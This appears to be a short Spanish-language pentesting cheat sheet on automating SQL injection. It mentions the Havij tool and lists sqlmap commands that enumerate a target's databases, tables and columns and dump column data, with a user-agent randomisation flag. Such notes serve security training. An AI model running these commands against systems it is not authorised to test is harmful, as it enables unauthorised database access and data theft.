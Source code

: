 ```yaml
---
description: Tambien existen herramientas para automatizar las inyecciones.
---
```


# AUTOMATIC INJECTION

## **HAVIJ**

 Software libre que permite automatizar los ataques de SQL Injection.

 Tiene muchas herramientas, buscar manual

##  **SQLMAP**

### **Enumerar bases de datos**

 `sqlmap -u [url/article.php?id=25] --dbs --random-agent` 

### Enumerar las tablas de la base de datos

 `sqlmap -u [url/article.php?id=25] -D steppindbadmin --tables --random-agent` 

### Enumera las columnas de la tabla

 `sqlmap -u [url/article.php?id=25] -D steppindbadmin --T items --columns --random-agent`

### Obtener información de las columnas

 `sqlmap -u [url/article.php?id=25] -D steppindbadmin --T items -C id --dump --random-agent`

